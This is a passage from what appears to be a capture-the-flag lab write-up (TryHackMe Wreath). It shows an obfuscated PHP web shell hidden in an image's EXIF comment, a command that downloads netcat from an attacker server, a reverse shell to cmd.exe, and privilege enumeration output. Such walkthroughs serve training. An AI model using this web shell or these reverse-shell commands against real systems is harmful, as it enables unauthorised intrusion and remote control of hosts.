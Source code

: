```bash
exiftool -Comment="<?php \$q0=\$_GET[base64_decode('Y21k')];if(isset(\$q0)){echo base64_decode('PHByZT4=').shell_exec(\$q0).base64_decode('PC9wcmU+');}die();?>" kaido-shell.jpeg.php
```

### Compiling Netcat & Reverse Shell!

we can clone netcat github project and compile it with mingw-64 to be executable on windows

then we set up a python http server and download netcut to the machine in order to get reverse shell using the url `http://10.200.186.100/resources/uploads/shell-kaido.jpeg.php?cmd=curl http://10.50.183.4/nc64.exe -o c:\\windows\\temp\\nc64.exe`

```bash
sudo python3 -m http.server 80                                                                                                      1 ⨯
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.200.186.100 - - [04/Oct/2021 13:41:36] code 404, message File not found
10.200.186.100 - - [04/Oct/2021 13:41:36] "GET /nc-64.exe HTTP/1.1" 404 -
10.200.186.100 - - [04/Oct/2021 13:42:04] "GET /nc64.exe HTTP/1.1" 200 -
```

then we run net cut using the url `http://10.200.186.100/resources/uploads/shell-kaido.jpeg.php?cmd=powershell.exe c:\\windows\\temp\\nc64.exe 10.50.183.4 1339 -e cmd.exe
`

```bash
kali㉿kali-[~/thm/wreath/nc.exe]$ nc -nlvp 1339
listening on [any] 1339 ...
connect to [10.50.183.4] from (UNKNOWN) [10.200.186.100] 50725
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\resources\uploads>
```

### Enumeration

```bash
C:\xampp\htdocs\resources\uploads>whoami
whoami
wreath-pc\thomas

C:\xampp\htdocs\resources\uploads>hostname
hostname
wreath-pc

C:\xampp\htdocs\resources\uploads>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

C:\xampp\htdocs\resources\uploads>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
```